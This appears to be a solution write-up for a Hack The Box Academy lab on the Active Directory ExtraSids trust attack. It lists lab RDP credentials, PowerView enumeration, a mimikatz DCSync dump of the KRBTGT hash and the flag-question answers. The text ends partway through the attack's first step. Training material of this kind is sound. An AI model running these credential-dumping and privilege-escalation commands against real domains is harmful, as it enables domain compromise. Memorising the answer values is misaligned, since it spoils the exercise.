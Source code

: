 ### **Lab Environment Setup**
```bash
# RDP to target with child domain admin credentials
xfreerdp /v:<target-ip> /u:htb-student_adm /p:'HTB_@cademy_stdnt_admin!'
```

### **🔍 Question 1: "What is the SID of the child domain?"**

**Solution:**
```powershell
# Import PowerView and get child domain SID
cd C:\Tools\
Import-Module .\PowerView.ps1
Get-DomainSID

# Alternative: Extract from KRBTGT DCSync output
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
# Look for "Object Security ID" field
```

**🎯 Answer**: `S-1-5-21-2806153819-209893948-922872689`

### **🏛️ Question 2: "What is the SID of the Enterprise Admins group in the root domain?"**

**Solution:**
```powershell
# Cross-domain Enterprise Admins SID enumeration
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Alternative built-in method:
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

**🎯 Answer**: `S-1-5-21-3842939050-3880317879-2865463114-519`

### **🎫 Question 3: "Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder."**

**Complete Attack Solution:**

**Step 1: Gather Attack Data**
```powershell
# Get KRBTGT hash
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
# Extract: 9d765b482771505cbe97411065964d5f

# Get child domain SID  
Get-DomainSID
# Result: S-1-5-21-2806153819-209893948-922872689

# Get Enterprise Admins SID
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select objectsid
# Result: S-1-5-21-3842939050-3880317879-2865463114-519
```
